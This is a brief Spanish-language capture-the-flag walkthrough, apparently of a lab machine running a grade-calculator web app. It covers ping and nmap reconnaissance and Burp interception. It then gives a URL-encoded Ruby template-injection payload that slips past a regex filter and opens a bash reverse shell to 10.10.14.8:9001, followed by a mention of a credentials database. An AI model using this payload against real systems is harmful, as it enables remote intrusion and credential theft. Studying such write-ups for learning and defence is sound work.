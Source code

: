 ### Ping
```python
ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=372 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 371.851/371.851/371.851/0.000 ms
```
### TTL 63= Linux
### nmpa
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.08 seconds
```

### Enumeración del puerto 80

![[Pasted image 20240302204849.png]]
en esta parte tenemos una especie de calculadora podemos interactuar e intentar capturar la la petición 
![[Pasted image 20240303152607.png]]
### Burpsuite
interceptamos la petición con burp y al intentar ingresar una reverse shell lo detecta como código malicioso
![[Pasted image 20240303152515.png]]


### Info
tenemos informacion de come ejecutar un Execute Code
![[Pasted image 20240303203611.png]]
en este caso tenemos que agregar un salto de linea para que ruby pueda interpretar el comando %OA mas comando a inyectar

```python
	test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
```
### regex ruby bypass

![[Pasted image 20240303203414.png]]
###### inyectamos este comando y usamos URL_ENCODE para poder baypassear 

de esta manera podemos tener acceso
![[Pasted image 20240303204746.png]]

test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>

pupilpath_credentials.db





### sqlite3
![[Pasted image 20240304130045.png]]

